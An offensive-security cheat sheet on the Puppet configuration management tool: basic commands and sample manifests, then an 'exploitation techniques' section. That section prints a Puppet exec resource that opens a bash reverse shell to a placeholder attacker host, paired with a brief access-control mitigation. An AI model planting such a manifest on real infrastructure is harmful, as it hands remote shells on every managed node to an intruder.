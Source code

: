 ### Puppet Cheat Sheet with Exploitation Techniques

#### **Puppet Overview**

Puppet is an open-source configuration management tool used to automate the provisioning, configuration, and management of servers. It uses a declarative language to define the desired state of system resources, and Puppet enforces this state across infrastructure.

#### **Basic Puppet Commands**

- `puppet apply <manifest.pp>`: Apply a manifest locally on a node.
- `puppet agent -t`: Run the Puppet agent manually (trigger a Puppet run).
- `puppet resource <type> <name>`: Inspect and manipulate resources.
-  `puppet module install <module-name>`: Install a Puppet module.
- `puppet cert list`: List certificates on the Puppet master.
- `puppet cert sign <certname>`: Sign a certificate request on the Puppet master.

#### **Puppet Manifests**

- **Defining a resource:**
  ```puppet
  file { '/tmp/testfile':
    ensure  => 'present',
    content => 'This is a test file',
  }
  ```

- **Defining a class:**
  ```puppet
  class example_class {
    file { '/tmp/classfile':
      ensure  => 'present',
      content => 'This is a class file',
    }
  }
  ```

- **Including a class in a node:**
  ```puppet
  node 'example_node' {
    include example_class
  }
  ```

#### **Puppet Exploitation Techniques**

##### 1. **Malicious Manifest Injection**
   - **Scenario**: An attacker with access to the Puppet server can modify manifests to include malicious commands that will be executed on client nodes.
   - **Example**: Inject a reverse shell:
     ```puppet
     exec { 'reverse_shell':
       command => '/bin/bash -c "bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1"',
     }
     ```
   - **Mitigation**: Implement strict access control to Puppet manifests and repositories.
